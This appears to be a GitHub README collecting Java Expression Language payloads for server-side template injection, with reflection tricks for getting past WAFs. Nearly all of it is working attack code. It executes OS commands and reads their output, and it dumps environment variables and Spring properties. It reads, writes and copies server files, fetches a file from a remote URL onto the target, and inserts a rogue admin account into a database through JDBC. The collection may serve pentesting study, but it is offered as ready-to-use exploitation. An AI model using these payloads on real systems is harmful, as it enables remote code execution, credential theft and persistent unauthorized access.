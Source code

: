 # Java-EL-SSTI-Advanced
Advanced Expression Language payloads for Java based SSTI's

## Whats it about:
For some cases, regular SSTI EL payloads are not suitable, because of something like WAF, prohibition of file execution and etc, so u may not able to shot regular payloads such as:
```java
T(java.lang.Runtime).getRuntime().exec('calc')
''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(<COMMAND STRING/ARRAY>)
''.class.forName('java.lang.ProcessBuilder').getDeclaredConstructors()[1].newInstance(<COMMAND ARRAY/LIST>).start()
```
(for more see on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#expression-language-el) and [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#java))

You probably need to start think in another way and try gather and do as much as possible... 
So, this repository was born from payloads developed during a regular web application pentest and several others written out of boredom, feel free to push more!

### Notes about custom payloads writing:
1) If you able to use *T(...).method()* - use it
2) If not - you need to invoke this method by finding it using
```java
"".getClass().forName("**package_name_where_method_is_present**").getMethod('methodName',arg1_class,arg2_class, ...)
```
3) It's better to get the method using the method described above, but its also possible to use:
```java
"".getClass().forName("**package_name_where_method_is_present**").getMethods()[number_of_you_method]
```
4) If method is static, first arg for .invoke will be null (or "")
5) You can find necessery class for method using `"".getClass().forName("arg1_class")`, examples:
``` java
"".getClass().forName("java.net.URI") // for java.net.URI
"".getClass() // for java.net.String
"".getClass().forName("[B") // for array of java.net.Byte
```
also check [Documentation](https://docs.oracle.com/javase/tutorial/reflect/class/classNew.html)

6) pay attention to single and double quotes and change if necessary


## Environment and properties
```Java
T(java.lang.System).getenv().toString()
T(java.lang.System).getProperties().toString()
```
## Spring properties
```Java
T(org.springframework.core.io.support.PropertiesLoaderUtils).loadAllProperties("application.properties").toString()

"".getClass().forName("org.springframework.core.io.support.PropertiesLoaderUtils").getMethod("loadAllProperties","".getClass()).invoke("","application.properties").toString()
```

## Reading command output (bytes)
```java
T(java.lang.Runtime).getRuntime().exec('whoami').getInputStream().readAllBytes()
```
## Reading command output (strings)
```java
"".getClass().forName("java.lang.String").getConstructor("".getClass().forName("[B")).newInstance("".class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(null).exec("whoami").getInputStream().readAllBytes())
new java.lang.String("".class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(null).exec("whoami").getInputStream().readAllBytes())
```

## Get current path
```java
(new java.io.File("./")).getAbsolutePath()
("".getClass().forName("java.io.File").getConstructor("".getClass())).newInstance("./").getAbsolutePath()
```

## Listing files
```java
"".getClass().forName("java.io.File").getConstructor("".getClass()).newInstance("C:/Windows").listFiles()
```

### Notes about files
**java.net.URI** for working with files on linux is file:///etc/passwd 

## Download files
```java
T(java.nio.file.Files).copy(new java.net.URL("http://127.0.0.1:8888/test.txt").openStream(),"".getClass().forName("java.nio.file.Paths").getMethods()[0].invoke(null,"C:/Windows/Temp/test3.txt",new String[]{}))
```

## Read Files (Strings)
```java
// this one may not work beacuse of difference of java.nio.file.Paths.Get arguments from java to java
"".getClass().forName("java.nio.file.Files").getMethod("readAllLines","".getClass().forName("java.nio.file.Path")).invoke("","".getClass().forName("java.nio.file.Paths").getMethods()[0].invoke("","",new String[]{"C:/Windows/System32/drivers/etc/hosts"}))

"".getClass().forName("java.nio.file.Files").getMethod("readAllLines","".getClass().forName("java.nio.file.Path")).invoke(null,"".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/System32/drivers/etc/hosts")))

"".getClass().forName("java.nio.file.Files").getMethod("readAllLines","".getClass().forName("java.nio.file.Path")).invoke(null,"".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/System32/drivers/etc/hosts")))

// java.nio.file.Files.readdAllLines(java.net.URI)
T(java.nio.file.Files).readAllLines("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/System32/drivers/etc/hosts")))

//java.lang.String( (java.net.URL).openStream().readAllByte() )
"".getClass().forName("java.lang.String").getConstructor("".getClass().forName("[B")).newInstance(new java.net.URL("file:/C:/windows/System32/drivers/etc/hosts").openStream().readAllBytes())
new java.lang.String(new java.net.URL("file:/C:/windows/System32/drivers/etc/hosts").openStream().readAllBytes())

```
## Read Files (Bytes)
```java
// this one may not work beacuse of difference of java.nio.file.Paths.Get arguments from java to java
"".getClass().forName("java.nio.file.Files").getMethod("readAllBytes","".getClass().forName("java.nio.file.Path")).invoke("","".getClass().forName("java.nio.file.Paths").getMethods()[0].invoke("","",new String[]{"C:/Windows/System32/drivers/etc/hosts"}))

"".getClass().forName("java.nio.file.Files").getMethod("readAllBytes","".getClass().forName("java.nio.file.Path")).invoke(null,"".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/System32/drivers/etc/hosts")))

"".getClass().forName("java.nio.file.Files").getMethod("readAllBytes","".getClass().forName("java.nio.file.Path")).invoke(null,"".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/System32/drivers/etc/hosts")))

T(java.nio.file.Files).readAllBytes("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/System32/drivers/etc/hosts")))

```

## Write Files (Strings)
```java
// not at uri "file:/" prefix
// change "hello" to your file content
"".getClass().forName("java.nio.file.Files").getMethod("write","".getClass().forName("java.nio.file.Path"),"".getClass().forName("[B"),"".getClass().forName("[Ljava.nio.file.OpenOption;")).invoke("","".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/Temp/qwe.txt")), "hello".getBytes(), new java.nio.file.OpenOption[] {"".getClass().forName("java.nio.file.StandardOpenOption").getField("CREATE").get(null)})

T(java.nio.file.Files).write("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/Temp/qwe.txt")), "hello".getBytes(), new java.nio.file.OpenOption[] {"".getClass().forName("java.nio.file.StandardOpenOption").getField("CREATE").get(null)})

T(java.nio.file.Files).write("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/Temp/qwe.txt")), "hello".getBytes(), new java.nio.file.OpenOption[] {"".getClass().forName("java.nio.file.StandardOpenOption").getField("CREATE").get(null)})

```

## Copy Files
```java
T(java.nio.file.Files).copy("".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/Temp/qwe.txt")), "".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,new java.net.URI("file:/C:/Windows/Temp/qwe_copy.txt")), new java.nio.file.CopyOption[] {"".getClass().forName("java.nio.file.StandardCopyOption").getField("REPLACE_EXISTING").get(null)})
```

## List packages
```java
T(java.util.Arrays).toString("".getClass().forName("java.lang.Package").getMethod("getPackages").invoke(""))

"".getClass().forName("java.util.Arrays").getMethod("toString","".getClass().forName("[Ljava.lang.Object;") ).invoke("","".getClass().forName("java.lang.Package").getMethod("getPackages").invoke("")).toString()
```

## List classes/files of package
```java
// replace org/myapplication to your /org/custom/package
"".getClass().forName("java.io.File").getConstructor("".getClass().forName("java.lang.String")).newInstance("".getClass().forName("java.lang.Thread").currentThread().getContextClassLoader().getResource("org/myapplication").getFile()).listFiles()
```

## List properties of custom class
```java
// replace org.myapplication.User to your class
"".getClass().forName("java.util.Arrays").getMethod("toString", "".getClass().forName("[Ljava.lang.Object;")).invoke(null, new java.lang.Object[]{"".getClass().forName("org.myapplication.User").getDeclaredFields()}).toString()
```

## List all class methods
```java
// replace org.myapplication.User to your class
"".getClass().forName("java.util.Arrays").getMethod("toString","".getClass().forName("[Ljava.lang.Object;") ).invoke("",new java.lang.Object[]{"".getClass().forName("org.myapplication.User").getDeclaredMethods()})
```

## Data Base - Insert
```java
//NOTE: you need to URL encode '&' in db connection string, result will be 500, thats ok 
T(java.sql.DriverManager).getConnection('jdbc:postgresql://127.0.0.1:5432/test?user=postgres%26password=mysecretpassword').createStatement().executeQuery("INSERT INTO users (name, surname, login, email, password) VALUES ('Admin', 'Admin', 'Admin', 'admin@example.com', 'P@ssw0rd123');")

"".getClass().forName("java.sql.DriverManager").getMethod("getConnection","".getClass()).invoke(null,"jdbc:postgresql://127.0.0.1:5432/test?user=postgres%26password=mysecretpassword").createStatement().executeQuery("INSERT INTO users (name, surname, login, email, password) VALUES ('Admin', 'Admin', 'Admin', 'admin@example.com', 'P@ssw0rd123');")
```

## HTTP Request - GET with response
```java
"".getClass().forName("java.lang.String").getConstructor("".getClass().forName("[B")).newInstance(new java.net.URL("http://google.com").openStream().readAllBytes())
```
